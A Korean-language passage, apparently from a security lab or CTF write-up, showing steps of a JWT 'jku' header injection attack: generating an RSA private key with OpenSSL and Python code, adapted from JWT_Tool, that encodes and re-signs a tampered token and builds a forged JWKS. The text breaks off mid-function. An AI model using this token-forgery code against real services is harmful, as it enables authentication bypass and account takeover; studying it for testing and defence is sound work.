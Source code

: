 ![jku-send-token](18.png)

### --- Step 02 개인키 생성
OpenSSL을 이용하여 임의의 개인키를 생성합니다.
```
openssl genrsa -out private_key.pem 2048
```

### --- Step 03 토큰 변조
아래 파이썬 코드를 이용하여 변조된 토큰을 Step 02에서 생성한 개인키로 서명합니다.
코드의 설명은 주석을 참고바랍니다.
> 해당 코드는 [JWT_Tool](https://github.com/ticarpi/jwt_tool)에서 필요한 부분을 가져와 수정하였습니다.


```python
import base64
import json
from datetime import datetime
from Cryptodome.Signature import PKCS1_v1_5
from Cryptodome.Hash import SHA256
from Cryptodome.PublicKey import RSA
from termcolor import cprint


myPrivKeyPath = "C:\\Users\\pc_name\\private_key.pem"


# 입력받은 Header와 Payload를 Base64 인코딩하여 출력
def genContents(headDict, paylDict, newContents=""):
    if paylDict == {}:
        newContents = base64.urlsafe_b64encode(json.dumps(headDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")+"."
    else:
        newContents = base64.urlsafe_b64encode(json.dumps(headDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")+"."+base64.urlsafe_b64encode(json.dumps(paylDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")
    return newContents.encode().decode('UTF-8')


# n, e, kid를 입력받아 JWK를 생성
def buildJWKS(n, e, kid):                                       
    newjwks = {}
    newjwks["kty"] = "RSA"
    newjwks["kid"] = kid
```